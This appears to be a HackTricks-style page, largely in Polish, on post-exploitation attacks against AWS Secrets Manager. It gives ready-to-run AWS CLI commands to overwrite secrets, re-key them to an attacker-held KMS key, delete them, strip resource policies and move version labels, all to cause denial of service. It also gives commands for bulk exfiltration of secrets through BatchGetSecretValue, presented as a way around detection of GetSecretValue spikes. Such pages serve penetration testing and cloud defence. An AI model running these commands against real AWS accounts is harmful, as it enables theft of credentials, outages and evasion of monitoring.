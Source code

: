 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

For more information check:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Czytanie Secrets

Te **secrets** są wrażliwymi informacjami, [check the privesc page](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) aby dowiedzieć się, jak je odczytać.

### DoS — zmiana wartości Secret

Zmieniając wartość Secret możesz **spowodować DoS wszystkich systemów zależnych od tej wartości.**

> [!WARNING]
> Pamiętaj, że poprzednie wartości są również przechowywane, więc łatwo je przywrócić.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Jeśli atakujący ma uprawnienie secretsmanager:UpdateSecret, może skonfigurować secret tak, aby używał KMS key należącego do atakującego. Ten klucz jest początkowo ustawiony w taki sposób, że każdy może go użyć, więc możliwe jest zaktualizowanie secret z użyciem nowego klucza. Gdyby klucz nie był dostępny, secret nie mógłby zostać zaktualizowany.

Po przypisaniu secret nowego KMS key atakujący modyfikuje konfigurację tego klucza tak, aby tylko on miał do niego dostęp. W ten sposób w kolejnych wersjach secret będzie szyfrowany nowym kluczem, a ponieważ nie będzie do niego dostępu, możliwość pobrania secret zostanie utracona.

Warto zauważyć, że ta niedostępność wystąpi tylko w późniejszych wersjach, po zmianie zawartości secret, ponieważ bieżąca wersja jest nadal zaszyfrowana oryginalnym KMS key.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

Minimalna liczba dni potrzebna, aby usunąć secret, wynosi 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Możliwe jest przywrócenie sekretu, co pozwala na odzyskanie sekretów, które zostały zaplanowane do usunięcia, ponieważ minimalny okres usunięcia dla sekretów wynosi 7 dni, a maksymalny 30 dni. W połączeniu z uprawnieniem secretsmanager:GetSecretValue umożliwia to pobranie ich zawartości.

Aby odzyskać sekret, który jest w trakcie usuwania, możesz użyć następującego polecenia:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Ta akcja pozwala usunąć politykę zasobów, która kontroluje, kto może uzyskać dostęp do sekretu. Może to doprowadzić do DoS, jeśli polityka zasobów została skonfigurowana tak, aby umożliwiać dostęp określonej grupie użytkowników.

Aby usunąć politykę zasobów:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Stany sekretu są używane do zarządzania jego wersjami. AWSCURRENT oznacza aktywną wersję, której używają aplikacje, AWSPREVIOUS przechowuje poprzednią wersję, aby móc się do niej cofnąć w razie potrzeby, a AWSPENDING jest używany w procesie rotacji, by przygotować i zweryfikować nową wersję przed uczynieniem jej bieżącą.

Aplikacje zawsze odczytują wersję oznaczoną jako AWSCURRENT. Jeśli ktoś przeniesie tę etykietę na niewłaściwą wersję, aplikacje będą używać nieprawidłowych poświadczeń i mogą przestać działać.

AWSPREVIOUS nie jest używany automatycznie. Jednak jeśli AWSCURRENT zostanie usunięty lub przypisany nieprawidłowo, może się wydawać, że wszystko wciąż działa na poprzedniej wersji.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
### Masowa eksfiltracja sekretów za pomocą BatchGetSecretValue (do 20 na wywołanie)

Nadużyj API Secrets Manager BatchGetSecretValue, aby pobrać do 20 sekretów w jednym żądaniu. To może znacząco zmniejszyć liczbę wywołań API w porównaniu do iteracyjnego używania GetSecretValue dla każdego sekretu. Jeśli używane są filtry (tags/name), wymagane jest też uprawnienie ListSecrets. CloudTrail wciąż rejestruje jedno zdarzenie GetSecretValue dla każdego sekretu pobranego w ramach batchu.

Wymagane uprawnienia
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue dla każdego docelowego sekretu
- secretsmanager:ListSecrets jeśli używasz --filters
- kms:Decrypt na CMK używanych przez sekrety (jeśli nie używasz aws/secretsmanager)

> [!WARNING]
> Note that the permission `secretsmanager:BatchGetSecretValue` is not included enough to retrieve secrets, you also need `secretsmanager:GetSecretValue` for each secret you want to retrieve.

Eksfiltruj za pomocą jawnej listy
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Eksfiltracja przez filtry (tag key/value lub prefiks nazwy)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Obsługa częściowych awarii
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Wpływ
- Szybkie “smash-and-grab” wielu sekretów przy mniejszej liczbie wywołań API, potencjalnie omijające alerty skonfigurowane na wykrywanie skoków GetSecretValue.
- Logi CloudTrail wciąż zawierają jedno zdarzenie GetSecretValue dla każdego sekretu pobranego w ramach partii.
{{#include ../../../../banners/hacktricks-training.md}}
